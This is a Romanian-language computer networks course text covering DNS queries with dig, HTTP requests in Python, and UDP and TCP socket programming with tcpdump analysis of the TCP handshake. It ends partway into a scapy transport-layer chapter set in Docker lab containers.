## [Domain Name System](https://dnsmonitor.com/dns-tutorial-1-the-basics/)

Folosim DNS pentru a afla IP-urile corespunzătoare numelor. În general numele sunt ([Fully Qualified Domain Names](https://kb.iu.edu/d/aiuv)) salvate cu [un punct în plus la sfârșit](https://stackexchange.github.io/dnscontrol/why-the-dot).

- [DNS și DNS over HTTPS cartoon](https://hacks.mozilla.org/2018/05/a-cartoon-intro-to-dns-over-https/). 
- [DNS server types](https://www.cloudflare.com/learning/dns/dns-server-types/)
- [DNSSEC](https://www.cloudflare.com/dns/dnssec/how-dnssec-works/)


În linux și macOS există aplicația `dig` cu care putem interoga entries de DNS. Puteți rula aceleași exemple dintr-un container docker `docker-compose exec rt1 bash`. 
```bash
#1. cele 12 root servers de DNS:
dig 
;; ANSWER SECTION:
.     18942 IN  NS  m.root-servers.net.
.     18942 IN  NS  a.root-servers.net.
.     18942 IN  NS  b.root-servers.net.
.     18942 IN  NS  c.root-servers.net.
.     18942 IN  NS  d.root-servers.net.
.     18942 IN  NS  e.root-servers.net.
.     18942 IN  NS  f.root-servers.net.
.     18942 IN  NS  g.root-servers.net.
.     18942 IN  NS  h.root-servers.net.
.     18942 IN  NS  i.root-servers.net.
.     18942 IN  NS  j.root-servers.net.
.     18942 IN  NS  k.root-servers.net.
.     18942 IN  NS  l.root-servers.net.

#2. facem request-uri iterative pentru a afla adresa IP corespunzatoare lui fmi.unibuc.ro
dig @a.root-servers.net fmi.unibuc.ro

;; AUTHORITY SECTION:
ro.     172800  IN  NS  sec-dns-b.rotld.ro.
ro.     172800  IN  NS  dns-c.rotld.ro.
ro.     172800  IN  NS  dns-at.rotld.ro.
ro.     172800  IN  NS  dns-ro.denic.de.
ro.     172800  IN  NS  primary.rotld.ro.
ro.     172800  IN  NS  sec-dns-a.rotld.ro.

#3. interogam un nameserver responsabil de top-level domain .ro
dig @sec-dns-b.rotld.ro fmi.unibuc.ro

;; QUESTION SECTION:
fmi.unibuc.ro.     IN  A

;; AUTHORITY SECTION:
unibuc.ro.    86400 IN  NS  ns.unibuc.ro.

;; ADDITIONAL SECTION:
ns.unibuc.ro.   86400 IN  A 80.96.21.3


#am aflat de la @sec-dns-b.rotld.ro ca ns.unibuc.ro se gaseste la adresa: 80.96.21.3
#4. trimitem un ultim mesaj:
mesaj = "hey, ns.unibuc.ro, care este adresa IP pentru numele fmi.unibuc.ro?"
IP dst:  80.96.21.3 (ns.unibuc.ro)
PORT dst: aplicația de pe portul: 53 - constanta magică (vezi IANA și ICANN)

#cand fac cererea, deschid un port temporar (47632)
#pentru a primi inapoi raspunsul DNS destinat aplicatiei care a făcut cererea
```

Interogări către serverul DNS 8.8.8.8 de la google.
```bash
# interogam serverul 8.8.8.8 pentur a afla la ce IP este fmi.unibuc.ro
dig @8.8.8.8 fmi.unibuc.ro

; <<>> DiG 9.10.3-P4-Ubuntu <<>> @8.8.8.8 fmi.unibuc.ro
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16808
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;fmi.unibuc.ro.         IN  A

;; ANSWER SECTION:
fmi.unibuc.ro.      12925   IN  A   193.226.51.15

;; Query time: 39 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Wed May 13 13:29:13 EEST 2020
;; MSG SIZE  rcvd: 58

```
DNS stochează nu doar informații despre IP-ul corespunzător unui hostname, ci există mai multe tipuri de intrări ([record types](https://ns1.com/resources/dns-types-records-servers-and-queries)) în baza de date:

- A record / Address Mapping - stochează perechi de NUME - IPv4
- AAAA Record - similar cu A, pentru adrese IPv6
- CNAME / Canonical Name - are rolul de a face un alias între un hostname existent și un alt hostname, ex: nlp.unibuc.ro -> nlp-unibuc.github.io
- MX / Mail Exchanger - spcifică server de email SMTP pentru domeniu, încercați `dig @8.8.8.8 fmi.unibuc.ro MX`
- NS / Name Server - specifică ce Authoritative Name Server este responabil pentru o anumită zonă de DNS (ex., pentru fmi.unibuc.ro este ns1.fmi.unibuc.ro), încercați `dig @8.8.8.8 fmi.unibuc.ro NS`
- PTR / Reverse-lookup Pointer - permite interogarea in functie de IP pentru a afla numele
- TXT / Text data - conține informații care pot fi procesate de alte servicii, `dig @8.8.8.8 fmi.unibuc.ro TXT`
- SOA / Start of Authority - conține informații despre autoritatea care se ocupă de acest nume

Protocolul pentru DNS lucrează la nivelul aplicației și este standardizat pentru UDP, port 53. Acesta se bazează pe request-response iar în cazul în care nu se primesc răspunsuri după un număr de reîncercări (de multe ori 2), programul anunță că nu poate găsi IP-ul pentru hostname-ul cerut ("can't resolve"). Headerul protocolului [este definit aici](http://www.networksorcery.com/enp/protocol/dns.htm).


<a name="https"></a>
## HTTP/S requests
Intrati in  browser si apasati tasta F12. Accesati pagina https://fmi.unibuc.ro si urmariti in tabul Network
request-urile HTTP.
- Protocolul [HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview)
- [Metode HTTP](http://httpbin.org/#/HTTP_Methods)
- Protocolul [HTTPS](https://robertheaton.com/2014/03/27/how-does-https-actually-work/)
- Video despre HTTPS [aici](https://www.youtube.com/watch?v=T4Df5_cojAs)

```python
import requests
from bs4 import BeautifulSoup

# dictionar cu headerul HTTP sub forma de chei-valori
headers = {
    "Accept": "text/html",
    "Accept-Language": "en-US,en",
    "Cookie": "__utmc=177244722",
    "Host": "fmi.unibuc.ro",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.79 Safari/537.36"
}

response = requests.get('https://fmi.unibuc.ro', headers=headers)
print (response.text[:200])

# proceseaza continutul html
supa = BeautifulSoup(response.text)

# cauta lista cu clasa ultimeleor postari
div = supa.find('ul', {'class': 'wp-block-latest-posts__list'})

print(div.text)
```

<a name="doh"></a>
### [DNS over HTTPS](https://datatracker.ietf.org/doc/rfc8484/?include_text=1)
Pentru securitare și privacy, sunt dezvoltate metode noi care encriptează cererile către DNS.
DNS over HTTPS sau DoH este explicat in detaliu [aici](https://hacks.mozilla.org/2018/05/a-cartoon-intro-to-dns-over-https/). 
Privacy-ul oferit de DoH poate fi exploatat și de [malware](https://www.zdnet.com/article/first-ever-malware-strain-spotted-abusing-new-doh-dns-over-https-protocol/) iar mai multe detalii despre securitatea acestuia pot fi citite [aici](https://secure64.com/wp-content/uploads/2019/06/doh-dot-investigation-6.pdf).


<a name="exercitii_http"></a>
### Exerciții HTTP/S
1. Cloudflare are un serviciu DoH care ruleaza pe IP-ul [1.1.1.1](https://blog.cloudflare.com/announcing-1111/). Urmăriți [aici documentația](https://developers.cloudflare.com/1.1.1.1/dns-over-https/json-format/) pentru request-uri de tip GET către cloudflare-dns și scrieți o funcție care returnează adresa IP pentru un nume dat ca parametru. Indicații: setați header-ul cu {'accept': 'application/dns-json'}. 
2. Executati pe containerul `rt1` scriptul 'simple_flask.py' care deserveste API HTTP pentru GET si POST. Daca accesati in browser [http://localhost:8001](http://localhost:8001) ce observati?
3. Conectați-vă la containerul `docker-compose exec rt2 bash`. Testati conexiunea catre API-ul care ruleaza pe rt1 folosind curl: `curl -X POST http://rt1:8001/post  -d '{"value": 10}' -H 'Content-Type: application/json'`. Scrieti o metoda POST care ridică la pătrat un numărul definit în `value`. Apelați-o din cod folosind python requests.
4. Urmăriți alte exemple de request-uri pe [HTTPbin](http://httpbin.org/)


<a name="socket"></a> 
## Socket API
Este un [API](https://www.youtube.com/watch?v=s7wmiS2mSXY) disponibil în mai toate limbajele de programare cu care putem implementa comunicarea pe rețea la un nivel mai înalt. Semnificația flag-urilor este cel mai bine explicată în tutoriale de [unix sockets](https://www.tutorialspoint.com/unix_sockets/socket_core_functions.htm) care acoperă partea de C. În limbajul [python](https://docs.python.org/2/library/socket.html) avem la dispoziție exact aceleași funcții și flag-uri ca în C iar interpretarea lor nu ține de un limbaj de programare particular.

<a name="udp"></a> 
### User Datagram Protocol - [UDP](https://tools.ietf.org/html/rfc768)

Este un protocol simplu la [nivelul transport](https://www.youtube.com/watch?v=hi9BVTNvl4c&list=PLfgkuLYEOvGMWvHRgFAcjN_p3Nzbs1t1C&index=50). Header-ul acestuia include portul sursă, portul destinație, lungime și un checksum opțional:
```
  0      7 8     15 16    23 24      31
  +--------+--------+--------+--------+
  |     Source      |   Destination   |
  |      Port       |      Port       |
  +--------+--------+--------+--------+
  |                 |                 |
  |     Length      |    Checksum     |
  +--------+--------+--------+--------+
  |
  |       data octets / payload
  +---------------- ...
```
Toate câmpurile din header sunt reprezentate pe câte 16 biți sau 2 octeți:
- Portul sursă și destinație în acest caz poate fi între 0 și 65535, nr maxim pe 16 biți. [Portul 0](https://www.lifewire.com/port-0-in-tcp-and-udp-818145) este rezervat iar o parte din porturi cu valori până la 1024 sunt [well-known](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#Well-known_ports) și rezervate de către sistemul de operare. Pentru a putea aloca un astfel de port de către o aplicație client, este nevoie de drepturi de administrator.
- Length reprezintă lungimea în bytes a headerului și segmentului de date. Headerul este împărțit în 4 cîmpuri de 16 biți, deci are 8 octeți în total.
- Checksum - suma în complement față de 1 a bucăților de câte 16 biți, complementați cu 1, vezi mai multe detalii [aici](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Checksum_computation) și [RFC1071 aici](https://tools.ietf.org/html/rfc1071) și [exemplu de calcul aici](https://www.youtube.com/watch?v=xWsD6a3KsAI). Este folosit pentru a verifica dacă un pachet trimis a fost alterat pe parcurs și dacă a ajuns integru la destinație.
- Payload sau data reprezintă datele de la nivelul aplicației. Dacă scriem o aplicație care trimite un mesaj de la un client la un server, mesajul nostru va reprezenta partea de payload.


Câteva caracteristi ale protocolului sunt descrise [aici](https://en.wikipedia.org/wiki/User_Datagram_Protocol#Attributes) iar partea de curs este acoperită în mare parte [aici](https://www.youtube.com/watch?v=Z1HggQJG0Fc&index=51&list=PLfgkuLYEOvGMWvHRgFAcjN_p3Nzbs1t1C).
UDP este implementat la nivelul sistemului de operare, iar Socket API ne permite să interacționăm cu acest protocol folosind apeluri de sistem.


#### Tutorial

##### UDP Server

În primă fază trebuie să importăm [librăria socket](https://docs.python.org/3/library/socket.html):
```python
import socket
```

Se instanțiază un obiect `sock` cu [AF_INET](https://stackoverflow.com/questions/1593946/what-is-af-inet-and-why-do-i-need-it) pentru adrese de tip IPv4, `SOCK_DGRAM` (datagrams - connectionless, unreliable messages of a fixed maximum length) pentru datagrams și `IPPROTO_UDP` pentru a specifica protocolul UDP:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, proto=socket.IPPROTO_UDP)
```

Apelăm funcția [bind](http://man7.org/linux/man-pages/man2/bind.2.html) pentru a asocia un port unei adrese și pentru ca aplicația sa își aloce acel port prin care poate primi sau transmite mesaje. In cazul de fata, adresa folosita este [localhost](https://whatismyipaddress.com/localhost), pe interfata loopback, ceea ce inseamnă că aplicația noastră nu va putea comunica cu alte dispozitive pe rețea, ci doar cu alte aplicații care se găsesc pe același calculator/container:

```python
port = 10000
adresa = 'localhost'
# tuplu adresa, port
server_address = (adresa, port)

#functia bind primeste ca parametru un obiect de tip tuplu
sock.bind(server_address)
```
Pentru a aloca un port astfel încât serverul să poată comunica pe rețea, trebuie fie să folosim adresa IP a interfeței pe care o folosim pentru comunicare (eth0 în cadrul containerelor de docker), fie să folosim o meta-adresă IP rezervată: `0.0.0.0` face ca toate interfețele să fie deschise către comunicare. Mai multe detalii despre această adresă puteți [citi aici](https://fossbytes.com/ip-address-0-0-0-0-meaning-default-route-uses/).

În momentul în care un client trimite serverului mesaje, acestea sunt stocate într-un buffer. Dimensiunea bufferului depinde de configurarea sistemului de operare, detaliile pentru linux sunt [aici](http://man7.org/linux/man-pages/man7/udp.7.html#DESCRIPTION) sau o postare cu mai multe explicații [aici](https://jvns.ca/blog/2016/08/24/find-out-where-youre-dropping-packets/).
Pentru a primi un mesaj, serverul poate să apeleze funcția `recvfrom` care are ca parametru numărul de bytes pe care să-l citească din buffer și o serie de [flags](https://manpages.debian.org/buster/manpages-dev/recv.2.en.html) optionale.

```python
# citeste 16 bytes din buffer
data, address = sock.recvfrom(16)
```

Funcția produce un apel blocant, deci programul stă în așteptare ca bufferul să se umple de octeți pentru a fi citiți. În cazul în care serverul nu primește mesaje, metoda stă în așteptare. Putem regla timpul de așteptare prin [settimeout](https://docs.python.org/3/library/socket.html#socket.socket.settimeout).

Valoarea returnată este un tuplu cu octeții citiți și adresa de la care au fost trimiși:
```python
print("Date primite: ", data)
print("De la adresa: ", address)
```

Folosim funcția `sendto` pentru a transmite octeți către o adresă de tip tuplu. Putem trimite înapoi un string prin care confirmăm primirea mesajului:
```python
payload =  bytes('Am primit: ', 'utf-8') + data
sent = sock.sendto(payload, address)
print ("Au fost trimisi ", sent, ' bytes')
```

În cele din urmă putem închide socket-ul folosind metoda `close()`

```python
sock.close()
```

##### UDP Client

Pentru a putea trimite mesaje, clientul trebuie să folosească adresa IP și port corespunzătoare serverului:
```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, proto=socket.IPPROTO_UDP)

port = 10000
adresa = 'localhost'
server_address = (adresa, port)
```

În python3, un string nu poate fi trimis prin socket decât dacă este convertit în șir de octeți.
Conversia se poate face fie prin alegerea unei [codificări](http://kunststube.net/encoding/):
```python
mesaj = "salut de la client, 你好"
print(type(mesaj))
# encoding utf-16
octeti = mesaj.encode('utf-16')
print (octeti)
print(type(octeti))
```
În linux codificarea default este UTF-8, un format în care unitățile de reprezentare a caracterelor sunt formate din 8 biți. Pentru a printa literele în terminal ar fi bine să folosim UTF-8. Caracterele ASCII putem să le convertim în bytes punând litera `b` în față:
```python
octeti = b"salut de la client cu" # nu merg caractere non-ascii 'țășîâ'
# apelam string encode
octeti = octeti + "你好".encode('utf-8')
# sau apelam constructorul de bytes cu un encoding
octeti = octeti + bytes("你好", 'utf-8')
print (octeti)
```

Observăm aici că nu am apelat metoda bind ca în server, dar cu toate astea metoda `sendto` pe care o folosim pentru a trimite octeții alocă implicit un [port efemer](https://en.wikipedia.org/wiki/Ephemeral_port) pe care îl utilizează pentru a trimite și primi mesaje.
```python
sent = sock.sendto(octeti, server_address)
```

Prin același socket putem apela si metoda de citire, în cazul de față 18 bytes din buffer. În cazul în care serverul nu trimite înapoi niciun mesaj, apelul va bloca programul indefinit până când va primi mesaje în buffer.
```python
data, adresa_de_la_care_primim = sock.recvfrom(18)
print(data, adresa_de_la_care_primim)
```

În cele din urmă pentru a închide conexiunea și portul, apelăm funcția close:
```python
sock.close()
```

O diagramă a procesului anterior este reprezentată aici:


<a name="exercitii_udp"></a>
### Exerciții UDP
În directorul capitolul2/src aveți două scripturi [udp_server.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/udp_server.py) și [udp_client.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/udp_client.py). Spre deosebire de exemplul prezentat mai sus, serverul stă în continuă aștepatre de mesaje iar clientul trimite mesajul primit ca prim argument al programului.
1. Executați serverul apoi clientul fie într-un container de docker fie pe calculatorul vostru personal: `python3 udp_server.py` și `python3 udp_client.py "mesaj de trimis"`.
2. Modificați adresa de pornire a serverului din 'localhost' în IP-ul rezervat descris mai sus cu scopul de a permite serverului să comunice pe rețea cu containere din exterior. 
3. Porniți un terminal în directorul capitolul2 și atașați-vă la containerul rt1: `docker-compose exec rt1 bash`. Pe rt1 folositi calea relativă montată în directorul elocal pentru a porni serverul: `python3 /elocal/src/udp_server.py`. 
4. Modificați udp_client.py ca el să se conecteze la adresa serverului, nu la 'localhost'. Sfaturi: puteți înlocui localhost cu adresa IP a containerului rt1 sau chiar cu numele 'rt1'.
5. Porniți un al doilea terminal în directorul capitolul2 și rulați clientul în containerul rt2 pentru a trimite un mesaj serverului:  `docker-compose exec rt2 bash -c "python3 /elocal/src/udp_client.py salut"`
6. Deschideți un al treilea terminal și atașați-vă containerului rt1: `docker-compose exec rt1 bash`. Utilizați `tcpdump -nvvX -i any udp port 10000` pentru a scana mesajele UDP care circulă pe portul 10000. Apoi apelați clientul pentru a genera trafic.
7. Containerul rt1 este definit în [docker-compose.yml](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/docker-compose.yml) cu redirecționare pentru portul 8001. Modificați serverul și clientul în așa fel încât să îl puteți executa pe containerul rt1 și să puteți să vă conectați la el de pe calculatorul vostru sau de pe rețeaua pe care se află calculatorul vostru.


<a name="tcp"></a> 
### Transmission Control Protocol - [TCP](https://tools.ietf.org/html/rfc793#page-15)

Este un protocol mai avansat de la [nivelul transport](http://www.erg.abdn.ac.uk/users/gorry/course/inet-pages/transport.html). 
Header-ul acestuia este mai complex și va fi explicat în detaliu în [capitolul3](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/README.md#tcp):
```
  0                   1                   2                   3   Offs.
  0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |          Source Port          |       Destination Port        |  1
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                        Sequence Number                        |  2
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Acknowledgment Number                      |  3
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 | Data  |0 0 0| |C|E|U|A|P|R|S|F|                               |
 |Offset | Res.|N|W|C|R|C|S|S|Y|I|            Window             |  4
 |       |     |S|R|E|G|K|H|T|N|N|                               |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |           Checksum            |         Urgent Pointer        |  5
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Options   (if data offset > 5)             | 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Application data                           | 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
```


Câteva caracteristici ale protocolului sunt descrise [aici](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#TCP_segment_structure).
Înainte de a face pașii de mai jos, urmăriți partea de curs acoperită în mare parte [aici](https://www.youtube.com/watch?v=c6gHTlzy-7Y&list=PLfgkuLYEOvGMWvHRgFAcjN_p3Nzbs1t1C&index=52). Între un client și un server se execută un proces de stabilire a conexiunii prin [three-way handshake](https://www.geeksforgeeks.org/computer-network-tcp-3-way-handshake-process/).


#### Tutorial

##### TCP Server

Server-ul se instanțiază cu [AF_INET](https://stackoverflow.com/questions/1593946/what-is-af-inet-and-why-do-i-need-it), `SOCK_STREAM` (fiindcă TCP operează la nivel de [byte streams](https://softwareengineering.stackexchange.com/questions/216597/what-is-a-byte-stream-actually)) și `IPPROTO_TCP` pentru specificarea protocolului TCP.

```python
# TCP socket 
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM, proto=socket.IPPROTO_TCP)

port = 10000
adresa = 'localhost'
server_address = (adresa, port)
sock.bind(server_address)
```

Protocolul TCP stabilește o conexiune între client și server prin acel 3-way handshake [explicat aici](https://www.youtube.com/watch?v=c6gHTlzy-7Y&list=PLfgkuLYEOvGMWvHRgFAcjN_p3Nzbs1t1C&index=52). Numărul de conexiuni în aștepare se poate stabili prin metoda `listen`, apel prin care se marchează în același timp socketul ca fiind gata să accepte conexiuni.

```python
sock.listen(5)
```

Metoda `accept` este una blocantă și stă în așteptarea unei conexiuni. În cazul în care nu se conectează niciun clinet la server, metoda va bloca programul indefinit. Altfel, când un client inițializează 3-way handshake, metoda accept construieste un obiect de tip socket nou prin care se menține conexiunea cu acel client în mod specific.

```python
while True:
   conexiune, addr = sock.accept()
   time.sleep(30)
   # citim 16 bytes in bufferul asociat conexiunii
   payload = conexiune.recv(16)
   # trimitem înapoi un mesaj
   conexiune.send("Hello from TCP!".encode('utf-8'))
   # închidem conexiunea, dar nu și socket-ul serverului care
   # așteaptă alte noi conxiuni TCP
   conexiune.close()

sock.close()
```

##### TCP Client

Clientul trebuie să folosească adresa IP și portul cu serverului:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM, proto=socket.IPPROTO_TCP)

port = 10000
adresa = 'localhost'
server_address = (adresa, port)
```

Prin apelul funcției connect, se inițializează 3-way handshake și conexiunea cu serverul.

```python
# 3-way handshake creat
sock.connect(server_address)
# trimite un mesaj
sock.send("Mesaj TCP client".encode('utf-8'))
# primeste un mesaj
data = sock.recv(1024)
print (data)
# inchide conexiunea
sock.close()
```

O diagramă a procesului anterior este reprezentată aici:


<a name="exercitii_tcp"></a> 
### Exerciții TCP
În directorul capitolul2/src aveți două scripturi [tcp_server.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/tcp_server.py) și [tcp_client.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/udp_client.py).
1. Executați serverul apoi clientul fie într-un container de docker fie pe calculatorul vostru personal: `python3 tcp_server.py` și `python3 tcp_client.py "mesaj de trimis"`.
2. Modificați adresa de pornire a serverului din 'localhost' în IP-ul rezervat '0.0.0.0' cu scopul de a permite serverului să comunice pe rețea cu containere din exterior. Modificați tcp_client.py ca el să se conecteze la adresa serverului, nu la 'localhost'. Pentru client, puteți înlocui localhost cu adresa IP a containerului rt1 sau chiar cu numele 'rt1'.
3. Într-un terminal, în containerul rt1 rulați serverul: `docker-compose exec rt1 bash -c "python3 /elocal/src/tcp_server.py"`. 
4. Într-un alt terminal, în containerul rt2 rulați clientul: `docker-compose exec rt1 bash -c "python3 /elocal/src/tcp_client.py TCP_MESAJ"`
5. Mai jos sunt explicați pașii din 3-way handshake captați de tcpdump și trimiterea unui singur byte de la client la server. Salvați un exemplu de tcpdump asemănător care conține și partea de [finalizare a conexiunii TCP](http://www.tcpipguide.com/free/t_TCPConnectionTermination-2.htm). Sfat: Modificați clientul să trimită un singur byte fără să facă recv. Modificați serverul să citească doar un singur byte cu recv(1) și să nu facă send. Reporniți serverul din rt1. Deschideți un al treilea terminal, tot în capitolul2 și rulați tcpdump: `docker-compose exec rt1 bash -c "tcpdump -Snnt tcp"` pentru a porni tcpdump pe rt1. 

<a name="shake"></a> 
### 3-way handshake
Exemplu 3-way handshake captat cu tcpdump:
```
tcpdump -Snn tcp
```

#### SYN:
Clientul apelează funcția connect(('198.13.0.14', 10000)) iar mesajul din spate arată așa:
```
   IP 172.111.0.14.59004 > 198.13.0.14.10000: Flags [S], seq 2416620956, win 29200, options [mss 1460,sackOK,TS val 897614012 ecr 0,nop,wscale 7], length 0
```

- Flags [S] - cerere de sincronizare de la adresa 172.111.0.14 cu portul 59004 către adresa 198.13.0.14 cu portul 10000
- seq 2416620956 - primul sequence nr pe care îl setează clientul în mod aleatoriu
- win 29200 - Window Size inițial. Pentru mai multe detalii, puteți consulta capitolul3 sau [video de aici](https://www.youtube.com/watch?v=Qpkr_12RQ7k)
- options [mss 1460,sackOK,TS val 897614012 ecr 0,nop,wscale 7] - reprezintă Opțiunile de TCP ce vor fi detaliate în capitolul3. Cele mai importante sunt prezentate pe scurt în [acest tutorial](http://www.firewall.cx/networking-topics/protocols/tcp/138-tcp-options.html). Cele din tcpdump în ordinea asta sunt: [Maximum Segment Size (mss)](http://fivedots.coe.psu.ac.th/~kre/242-643/L08/html/mgp00005.html), [Selective Acknowledgement](https://wiki.geant.org/display/public/EK/SelectiveAcknowledgements), [Timestamps](http://fivedots.coe.psu.ac.th/~kre/242-643/L08/html/mgp00011.html) (pentru round-trip-time), NOP (no option pentru separare între opțiuni) și [Window Scaling](http://fivedots.coe.psu.ac.th/~kre/242-643/L08/html/mgp00009.html).
- length 0 - mesajul SYN nu are payload, conține doar headerul TCP

#### SYN-ACK:
În acest punct lucrurile se întâmplă undeva în interiorul funcției accept din server la care nu avem acces. Serverul răspunde prin SYN-ACK:
```
   IP 198.13.0.14.10000 > 172.111.0.14.59004: Flags [S.], seq 409643424, ack 2416620957, win 28960, options [mss 1460,sackOK,TS val 2714984427 ecr 897614012,nop,wscale 7], length 0
```

- Flags [S.] - . (punct) reprezintă flag de Acknowledgement din partea serverului (198.13.0.14.10000) că a primit pachetul și returnează și un Acknowledgement number: ack 2416620957 care reprezintă Sequence number trimis de client + 1 (vezi mai sus la SYN).
- Flags [S.] - în același timp, serverul trimite și el un flag de SYN și propriul Sequence number: seq 409643424
- optiunile sunt la fel ca înainte și length 0, mesajul este compus doar din header, fără payload


#### ACK:
După primirea cererii de sincronizare a serverului, clientul confirmă primirea, lucru care se execută în spatele funcției connect:
```
   IP 172.111.0.14.59004 > 198.13.0.14.10000: Flags [.], ack 409643425, win 229, length 0
```
- Flags [.] - . (punct) este pus ca flack de Ack și se transmite Ack Number ca fiind seq number trimis de server + 1: ack 409643425
- length 0, din nou, mesajul este fără payload, doar cu header

#### PSH:
La trimiterea unui mesaj, se folosește flag-ul push (PSH) și intervalul de secventă de dimensiune 1:
```
   IP 172.111.0.14.59004 > 198.13.0.14.10000: Flags [P.], seq 2416620957:2416620958, ack 409643425, win 229, length 1
```
- Flags [P.] - avem P și . (punct) care reprezintă PUSH de mesaj nou și Ack ultimului mesaj
- seq 2416620957:2416620958 - se trimite o singură literă (un byte) iar numărul de secvență indică acest fapt
- ack 409643425 - la orice mesaj, se confirmă prin trimiterea de Ack a ultimului mesaj primit, in acest caz se re-confirmă SYN-ACK-ul de la server
- length 1 - se trimite un byte în payload 


#### ACK:
Serverul dacă primește mesaju, trimite automat un mesaj cu flag-ul ACK și Ack Nr numărul de octeți primiți. 
```
    IP 198.13.0.14.10000 > 172.111.0.14.59004: Flags [.], ack 2416620958, win 227, length 0
```
- Flags [.] - flag de Ack
- ack 2416620958 - semnifică am primit octeți pana la 2416620957, aștept octeți de la Seq Nr 2416620958
- length 0 - un mesaj de confirmare nu are payload 

# Capitolul 3 - Transport Layer

## Cuprins
- [Introducere](#intro)
- [Funcțiile send(p), sr(p), sr(p)1 în scapy](#scapy_send)
- [UDP Datagram](#udp)
  - [Exemplu de calcul pentru checksum](#checksum)
  - [UDP Socket](#udp_socket)
  - [UDP Raw Socket](#udp_raw_socket)
  - [UDP Scapy](#udp_scapy)
- [TCP Segment](#tcp)
  - [TCP Congestion Control](#tcp_cong)
  - [TCP Options](#tcp_options)
    - [Retransmissions Exercise](#tcp_retransmission)
    - [Congestion Control Exercise](#tcp_cong_ex)
  - [TCP Socket](#tcp_socket)
  - [TCP Raw Socket](#tcp_raw_socket)
  - [TCP Scapy](#tcp_scapy)
  - [TCP Options in Scapy](#tcp_options_scapy)
- [Exerciții](#exercitii)

<a name="intro"></a> 
## Introducere
```
cd computer-networks

# ștergem toate containerele create default
docker-compose down

# ștergem rețelele create anterior ca să nu se suprapună cu noile subnets
docker network prune

# lucrăm cu docker-compose.yml din capitolul3
cd capitolul3
docker-compose up -d

# sau din directorul computer-networks: 
# docker-compose -f capitolul3/docker-compose.yml up -d
```

Fișierul `docker-compose.yml` definește 4 containere `server, router, client, middle` având ip-uri fixe în subneturi diferite, iar `router` este un container care funcționează ca router între cele două subrețele. Observați în [command pentru server](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/src/server.sh): `ip route add 172.10.0.0/16 via 198.10.0.1` adăugarea unei rute către subnetul în care se află clientul via ip-ul containerului router. De asemenea, în containerul client există o rută către server prin containerul router: `ip route add 198.10.0.0/16 via 172.10.0.1`.

Serviciile router și middle sunt setate să facă forwarding `net.ipv4.ip_forward=1`, lucru care se poate observa prin valoarea=1 setată: `bash /proc/sys/net/ipv4/ip_forward`. 

Toate containerele execută o comandă de firewall prin iptables: `iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP` pentru a dezactiva regula automată de reset a conexiunilor TCP care nu sunt initiate de sistemului de operare.

Mai jos este diagrama pentru topologia containerelor:
```
            MIDDLE <-------\
        subnet2: 198.10.0.3 \
           forwarding        \
                              \
                               \
                                \
    SERVER     <------------> ROUTER <------------> CLIENT
subnet2: 198.10.0.2      subnet1: 172.10.0.1      subnet1: 172.10.0.2
                         subnet2: 198.10.0.1    
                         subnet1 <-> subnet2
                             forwarding
```


<a name="scapy_send"></a> 
## Funcțiile send(p), sr(p), sr(p)1 în scapy

În scapy avem mai multe funcții de trimitere a pachetelor:
- `send()` - trimite un pachet pe rețea la nivelul network (layer 3), iar secțiunea de ethernet este completată de către sistem
- `answered, unanswered = sr()` - send_receive - trimite pachete pe rețea în loop și înregistrează și răspunsurile primite într-un tuplu (answered, unanswered), unde answered și unanswered reprezintă o listă de tupluri [(pachet_trimis1, răspuns_primit1), ...,(pachet_trimis100, răspuns_primit100)] 
- `answer = sr1()` - send_receive_1 - trimite pe rețea un pachet și înregistrează primul răspunsul

Pentru a trimite pachete la nivelul legatură de date (layer 2), completând manual câmpuri din secțiunea Ethernet, avem echivalentul funcțiilor de mai sus:
- `sendp()` - send_ethernet trimite un pachet la nivelul data-link, cu layer Ether custom
- `answered, unanswered = srp()` - send_receive_ethernet trimite pachete la layer 2 și înregistrează răspunsurile
- `answer = srp1()` - send_receive_1_ethernet la fel ca srp, dar înregistreazî doar primul răspuns


<a name="udp"></a>
